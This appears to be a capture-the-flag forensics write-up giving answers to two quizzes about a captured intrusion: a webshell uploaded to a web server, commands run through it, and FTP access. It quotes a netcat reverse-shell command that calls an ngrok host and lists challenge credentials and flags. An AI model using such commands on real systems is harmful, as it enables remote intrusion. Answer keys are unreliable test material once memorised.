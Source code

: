 ## Solve:

### Quiz 1

1. What is the IP address for the vulnerable website? <br/>
  `206.89.59.199`
2. What is the name of the file with file upload functionality? (just the name, no relative location) <br/>
  `fileupload1.php`
3. What is the name of the first file uploaded? <br/>
  `linux-sandwich-cracker-box.JPG`
4. Looking at the webshell uploaded, what was its original name? <br/>
  `another_obfuscated_phpshell.php`
5. What is the relative location of the uploaded webshell? <br/>
  `/uploads/shell.php`
6. What was the first command executed using the webshell? <br/>
  `whoami`
7. What is the reverse shell command executed through the webshell? (before encoding) <br/>
  `nc 0.tcp.eu.ngrok.io 17344 -e /bin/bash`
8. What is the correct order? <br/>
  `[protocol]://[host]:[port]/[path]?[query]#[fragment]`
9. What type of web server was used? <br/>
  `Apache/2.4.38`

<br/>

### Quiz 2

1. Which user have we been spawned as after getting the reverse shell? <br/>
  `www-data`
2. What is the flag you found after getting the reverse shell? <br/> 
  `flag{way_to_go}`
3. What version of FTP is used on the victim server? <br/>
  `vsFTPd 3.0.3`
4. What is the pair of credentials used for FTP login? <br/>
  `ftpuser:flag`
5. What is the first command executed on the ftp server? <br/>
  `ls`
6. How many files were available to retrieve from the ftp server? <br/>
  `2`
7. On what date were the FTP files retrieved? <br/>
  `27 Dec`
8. UDP packets; IPv6 packets; total number of packets; <br/>
  `2; 3; 1057`
9. How many seconds did the packet capture record? <br/>
  `160`
  
<br/><br/>

## Flag:

`flag{forensics_analyst;you_did_a_good_job}`
